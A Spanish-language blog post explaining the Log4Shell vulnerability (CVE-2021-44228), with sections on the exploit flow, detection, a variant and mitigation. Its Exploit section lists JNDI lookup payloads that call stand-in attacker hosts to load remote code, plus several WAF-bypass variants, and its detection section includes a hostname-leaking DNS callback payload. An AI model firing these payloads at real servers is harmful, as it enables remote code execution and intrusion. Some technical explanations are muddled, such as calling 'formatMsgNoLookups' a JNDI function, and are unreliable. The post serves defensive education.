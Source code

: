 ```yaml
---
layout: single
title: '<span class="post">Log4Shell (CVE-2021-44228) Explicación de la vulnerabilidad | Pentesting </span>'
excerpt: "La vulnerabilidad Log4Shell hay estado revolucionando a las empresas desde que se descubrió, en este post contaré en que consiste, como detectarla, explotarla y mitigarla."
date: 2021-12-16
header:
  teaser: /assets/images/log4shell/logo.png
  teaser_home_page: true
  image_description: log4shell
categories:
  - post
  - article
tags:  
  - log4shell
  - cve-2021-44228
  - log4j
  - java
  - zero-day
  - cybersecurity
show_time: true
toc: true
toc_label: "Content"
toc_sticky: true
---
```


# Contextualización

La vulnerabilidad de tipo RCE ocurre debido a que la función `log4j2.formatMsgNoLookups` existente en la librería JNDI, la cual se usa para acceder a recursos externos o referencias de Java y esta no realiza un correcto control del valor cargado, seguidamente con LDAP indicamos donde se quiere acceder. Así que, quien ataque puede enviar una petición, ya sea:

- Para obtener recursos mediante la inyección de código previamente encodeada en Base 64.
- Obtener una conexión reversa (reverse shell) a través de la carga remota de un archivo escrito en Java y ya compilado, `Exploit.class` el cual se va interpretar al ser cargado por el servidor.
- Ejecución de código arbitrario sobre el servidor objetivo.

Ya que el servidor descarga, almacena y carga lo que obtenga por parte del recurso externo (en el caso de un atacante, su propio servidor).

# Exploit

El payload lleva comúnmente el formato `${jndi:ldap://IP_SERVER_ATACANTE/file}`

- El atacante envía un parámetro manipulado ( por ejemplo ?x=) al servidor (por HTTP u otro protocolo). Por ejemplo la siguiente cadena: `${jndi:ldap://sitio-malicioso.com/exp}` mediante una petición GET.
- El servidor vulnerable recibe la solicitud con el *payload*.
- La vulnerabilidad en *Log4j* permite que el *payload* se ejecute y el servidor realiza una petición al sitio del atacante. La petición se realiza a través del protocolo JNDI.
- La respuesta desde el servidor del atacante contiene un archivo Java remoto (por ejemplo, un archivo *exploit.class*) que se inyecta en el proceso que está ejecutando el servidor vulnerable.
- Se ejecuta código en el servidor vulnerable.

<a href="/assets/images/log4shell/explotacion.png"><img src="/assets/images/log4shell/explotacion.png" alt="log4shell explotation"></a>

Aunque el payload puede ser interceptada por un WAF fácilmente, este se puede bypassear de ilimitadas formas:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

Estos consisten en variar y tratar de que no se envíe de forma clara el payload.

Además hay otro protocolo que se puede aprovechar, `rmi` el cual se puede usar con la utilidad `mashalsec` y se ve en el último payload mostrado.

<a href="/assets/images/log4shell/defensas.png"><img src="/assets/images/log4shell/defensas.png" alt="log4shell defenses"></a>

> Nota: Hay que considerar que cada producto afectado (Apache, Cisco, RedHat, Citrix, etc.. )de 4j en base a su configuración u arquitectura de red se explotan de forma diferente. (En la mayoría basta con la modificación del payload para bypassear posibles WAFs)
> 

# Detección

Para detectar la vulnerabilidad sin causar daños al activo, deberemos realizar los pasos mostrados en la sección de Explotación. Pero tratando se usar un payload que simplemente accedamos a nuestro servidor, por ejemplo: `${jndi:ldap://IP_SERVER_ATACANTE}`

Posteriormente al lanzarla ya sea con ese payload o una variante a modo de bypass, si recibimos una petición en nuestro servidor, podremos confirmar que nuestro objetivo es vulnerable.

Hay varias opciones a la hora de interceptar la petición:

- Montar servidor HTTP para capturar peticiones entrantes (por ejemplo, con Python) y poder así confirmar que se ha recibido la petición al servidor a la que apuntabamos en el código inyectado.
- Podemos ayudarnos de un servidor DNS, para que mediante el encodeo del nombre del target en la petición, se reciba la petición con el nombre del host afectado, confirmando así que es vulnerable.
    
    Ejemplo: `${jndi:ldap://x${hostName}.dns1.myserver.com/a}`
    
- Usando Nuclei y utilizando como servidor receptor de peticiones `interactsh`
    - [Enlace a plantilla de Nuclei](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)

# Variantes de la vulnerabilidad

- **CVE-2021-45046**
    
    Está variante permite generar un ataque de denegación de servicios (DoS), dicha vulnerabilidad tiene una severidad relativamente baja y una complejidad de explotación alta.
    
    Dicha variante se aprovecha de la misma vulnerabilidad de JNDI, aunque a diferencia de Log4Shell esta gracias al control sobre el Mapa de Contexto de Hilos (MDC) cuando no se utiliza una patron de diseño predeterminado, se puede crear datos de entrada maliciosos mediante un patrón de búsqueda JNDI que concluye en un ataque DoS.
    

# Versiones Afectadas

`Log4j 2.0 a 2.14.1`

# Mitigación

Actualizar la librería a la versión `Log4j 2.16`

- **CVE-2021-44228:**
    - Se ha eliminado completamente la funcionalidad afectada.
- **CVE-2021-45046:**
    - Se ha eliminado el soporte para patrones de búsqueda de mensajes y se ha deshabilitado la funcionalidad JNDI por defecto.
